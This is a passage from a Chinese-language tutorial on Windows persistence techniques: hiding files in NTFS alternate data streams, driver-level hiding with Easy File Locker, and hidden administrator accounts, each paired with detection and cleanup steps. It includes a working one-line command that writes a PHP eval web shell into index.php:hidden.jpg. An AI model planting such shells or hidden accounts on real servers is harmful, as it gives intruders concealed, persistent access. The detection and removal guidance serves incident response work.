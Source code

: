 **2、利用ADS隐藏文件内容**

​ 在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞：

```text
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。

```text
问题1：如何查看index.php:hidden.jpg内容呢？

　　    进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　    
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```

**3、驱动级文件隐藏**

驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker

下载链接： [http://www.xoslab.com/efl.html](http://www.xoslab.com/efl.html)

如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：

```text
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？

```text
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
```

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。

## 0x02 隐藏账号

window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。

![](../.gitbook/assets/privilege-1-4.png)
